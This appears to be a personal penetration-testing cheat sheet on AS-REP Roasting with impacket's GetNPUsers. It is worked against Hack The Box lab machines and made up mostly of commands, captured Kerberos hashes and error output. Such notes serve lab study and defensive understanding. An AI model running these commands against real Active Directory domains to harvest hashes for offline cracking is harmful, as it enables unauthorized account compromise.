 # -

- [AS-REP Roasting with GetNPUsers](#as-rep-roasting-with-getnpusers)
- [Goal](#goal)
    - [Cracking Active Directory Passwords with AS-REP Roasting](#cracking-active-directory-passwords-with-as-rep-roasting)
    - [Get TGT key which contains target password NTLM hash](#get-tgt-key-which-contains-target-password-ntlm-hash)
- [TL;DR](#tldr)
- [Works](#works)
    - [E.g. HTB Forest](#eg-htb-forest)
- [Doesn't Works](#doesnt-works)
    - [Error in searchRequest](#error-in-searchrequest)
        - [E.g. HTB Active - Require Auth (successful bind)](#eg-htb-active---require-auth-successful-bind)
- [Common Mistakes](#common-mistakes)
    - [Domain Name without "/" suffix](#domain-name-without--suffix)

# [Goal](#goal-1)
## [Cracking Active Directory Passwords with AS-REP Roasting](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)

> ... steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.
> Using anonymous bind you can enumerate LDAP and get a list of valid usernames.
> Then, you may use the GetNPUsers script from the impacket to check which of these usernames has Kerberos pre-authentication disabled.
> This is called AS-REP-Roasting.

## [Get TGT key which contains target password NTLM hash](https://dazzyddos.github.io/posts/TryHackMe-Enterprise-Walkthrough/)
> request target TGT key which contains target password NTLM hash which we can try cracking locally

Box | Domain | IP 
-|-|-
Forest | htb.local | 10.10.10.161
BLACKFIELD | BLACKFIELD.local | 10.10.10.

# TL;DR
```sh
GetNPUsers htb.local/ -request
GetNPUsers htb.local/ -r
GetNPUsers htb.local/ -dc-ip $ip
GetNPUsers htb.local/ -dc-ip $ip -request
GetNPUsers htb.local/ -dc-ip $ip -r
GetNPUsers BLACKFIELD.local/ -usersfile valid-users.txt -r
```

# Works
## E.g. HTB Forest
### HTB Forest vulnerable to ASREP, but not with HTB Active
```sh
$ impacket-GetNPUsers htb.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:09:07.367813  2023-08-02 11:47:00.513833  0x410200
```

# Doesn't Works
## Error in searchRequest
### E.g. HTB Active - Require Auth (successful bind)
HTB Active, Multimaster
NOT vulnerable to ASREP ???
```sh
$ impacket-GetNPUsers active.htb/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
```

# Common Mistakes
## Domain Name without "/" suffix
```sh
$ impacket-GetNPUsers htb.local  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Domain should be specified!
```

### Examples; HTB Forest
```sh
$ impacket-GetNPUsers htb.local/ -request  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:10:42.227380  2023-08-02 11:47:00.513833  0x410200 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:282f708038e3d413dcbb692377168a0c$a57ae2b2cd5cd99d5c063f53c3321feef6b6d805cf318cadeb5be31c297541b0cfaa35b0e447eed21def3b6c9f472d64cf381b51429abab7bea41cf769be50aaeed52dcce3e8c5f9c1b6686d62d2ca217ee369c810ad582a046fa5f093fa6f9891daf3e02b6b0c576b9b28fc37c8a615d499c7303497b21873cd9bdc1d01f69d628dd66bdf63cdae985a50f0d6dd30b9ecd59e6fd56610cf2a63bf58920ceff8c28a81c8ec0aedf3e68cee83986c094af2caa38423435923fcfecea279d816b5e601436a7b10e1b966771e7f8cb3cc5f3ada3c375f2c8f2fc1b1a4d658eb28d2307331eb653a
```

### GetNPUsers htb.local/ -dc-ip $ip
```sh
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip $ip
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200
```

### GetNPUsers htb.local/ -dc-ip $ip -request
```sh
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip $ip -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200


$krb5asrep$23$svc-alfresco@HTB.LOCAL:725910cae0bc4d7afa0f322cf48c22ec$ea47da97143367e99e1f1ace94bef5f4b7d21f23e9496c27e51ae0cb498996b9581cc8fbcbe7ab10db77fbf3da7d27364f9ce868c64eed607c33df0b4d24a0e731fa9dce764e38c6dabaa9103c511771888f02e3c4e1e7bff80a245d78a4dd8e7c8dcf2e1c63e2c55932648bc09000f2e0227c5295d11845f6b0c5471e3246fa2d1ee3ba80f63eb0eef5b10067bfd1ec12f3a2dec5ada44bda4e5402bc3e25d8118e875def2b0798100065ca43f01f2823c758d0943bb54e5c8d20260b2cd4dedce4e8a4558eabee260f1008f33801e9e3bb8802c24065296c42c2c654e662450a05806dc400

C:\Tools\impacket-master\examples>
```

### Not all user
```sh
$ GetNPUsers BLACKFIELD.local/ -usersfile valid-users.txt -r
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:f764e18d4bf1c000c1caba2c30a836e6$1fd948cf3592f7da94563cde9ffb2d7363c280284c1226c91a7cfa6bfeb8226fe8f2dfe2443d071e732d5cd25de24dd02024d1575b4db0353d8cbe54dcd5ca241f1a643462adaf97184522f0b2fd05fa6d19ce521b49d0a314a56f274e623caf478a7f0228eb9e5fc74bcdb98f4eaf567d4d28cfeb09dbe3291e5c5503cfd5738e9febd987cdff89d27fd2d0074eb9dc21d3fc42882b73c0b4873d8064c524e8d8f9ec57747c30deaa4a17b892d8905146c95f7429f72640ba6c179477c110ca5ca3396f6b7ed3ec77cc9de8de09435fe97e444dce3d9fc7310b6743809bf7b7193a90c45749b07fc4b3f8bc8ae9d39b41ebe7e3

"audit2020" and "svc_backup" are valid users. However, "UF_DONT_REQUIRE_PREAUTH" flag is not set for users "audit2020" and "svc_backup" so we can't get krb5asrep hash from them.

"UF_DONT_REQUIRE_PREAUTH" flag tells the Kerberos server not to require pre-authentication for the user. Without this flag set, the server will always require pre-authentication, which includes sending a krb5asrep message.
```